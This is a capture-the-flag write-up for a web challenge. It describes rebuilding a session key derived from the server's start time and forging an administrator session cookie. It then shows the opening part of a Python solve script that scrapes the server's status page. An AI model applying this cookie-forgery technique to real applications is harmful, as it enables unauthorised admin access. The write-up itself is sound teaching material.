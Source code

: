 ### To get flag
1. **Retrieve Server Status:**
   - Access the `/status` route to obtain the server's current time and uptime.
   - Calculate the server's start time by subtracting the uptime from the current time.

2. **Reconstruct the Secret Key:**
   - Use the server's start time to generate the same `secure_key` by hashing `secret_key_<server_start_str>` with SHA-256.

3. **Forge the Session Cookie:**
   - With the `secure_key`, serialize a session containing `username: administrator`, `uid: <UUID of administrator>`, and `is_admin: True`.
   - Generate a signed session cookie that the server will accept using the reconstructed key.

4. **Access the Admin Page:**
   - Use the forged session cookie to make a request to `/admin`.
   - If successful, the server returns the flag.

---

## Solution script

The exploit is implemented in the provided `solve.py`. 

Breakdown of each step in case ur still confused ig: 

### Step 1: Retrieve Server Status

```python
def get_server_status():
    status_url = f'{base_url}/status'
    response = requests.get(status_url)

    if response.status_code != 200:
        print('Failed to retrieve server status')
        exit()

    # Parse server time and uptime from the response
    soup = BeautifulSoup(response.text, 'html.parser')
    text = soup.get_text()

    # Extract uptime and current time
    uptime_match = re.search(r'Server uptime: ([\d:]+)', text)
    current_time_match = re.search(r'Server time: (\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2})', text)

    if not uptime_match or not current_time_match:
        print('Failed to parse server status')
        exit()

    uptime_str = uptime_match.group(1)
    current_time_str = current_time_match.group(1)

    # Convert uptime to timedelta
    time_parts = uptime_str.split(':')
    if len(time_parts) == 3:
        hours, minutes, seconds = map(int, time_parts)
        uptime = timedelta(hours=hours, minutes=minutes, seconds=seconds)
    elif len(time_parts) == 2:
        minutes, seconds = map(int, time_parts)
        uptime = timedelta(minutes=minutes, seconds=seconds)
    else:
        print('Unexpected uptime format')
        exit()

    # Convert current time string to datetime
```